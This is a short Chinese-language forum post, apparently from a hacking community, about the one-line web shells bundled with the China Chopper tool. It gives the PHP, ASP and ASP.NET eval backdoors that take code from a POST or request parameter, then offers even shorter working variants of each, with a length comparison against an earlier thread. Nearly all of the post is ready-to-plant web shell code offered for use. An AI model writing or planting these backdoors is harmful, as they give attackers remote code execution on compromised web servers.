 菜刀readme.txt中附带一3个一句话： 

```PHP:    <?php @eval($_POST['chopper']);?> 
ASP:    <%eval request("chopper")%> 
ASP.NET:    <%@ Page Language="Jscript"%><%eval(Request.Item["chopper"],"unsafe");%>
```

抛弃密码的长度不算，其实这3个一句话均不是最短的。 
如： 
PHP我们可以这样写： 

```
<?php @eval($_POST['0']);?>   原版 
<?=eval($_POST[0]);?>         缩小版
```

ASP我们可以这样写： 
```
<%eval request("0")%>   原版 
<%eval request(0)%>     缩小版
```

ASP.NET可以这样写： 

```<%@ Page Language="Jscript"%><%eval(Request.Item["z"],"unsafe");%>   原版 
<%@Page Language=JS%><%eval(Request.Item(0),"unsafe");%>             缩小版
```

当然你也可以把它写成这样(很显然体积上不占优势)： 

```
<%@Page Language="JAVASCRIPT"%><%eval(Request.Item(0),"unsafe");%>
```

已经用了许久的东西，直接回复原贴感觉很多人看不到，还是单独发出来吧。 
和原求助贴中的最长字符数对比： 

```
<%@ Page Language="Jscript"%><%eval(Request.Item["1"],"unsafe 
<%@Page Language=JS%><%eval(Request.Item(0),"unsafe");%>
```

显然达到目的了。
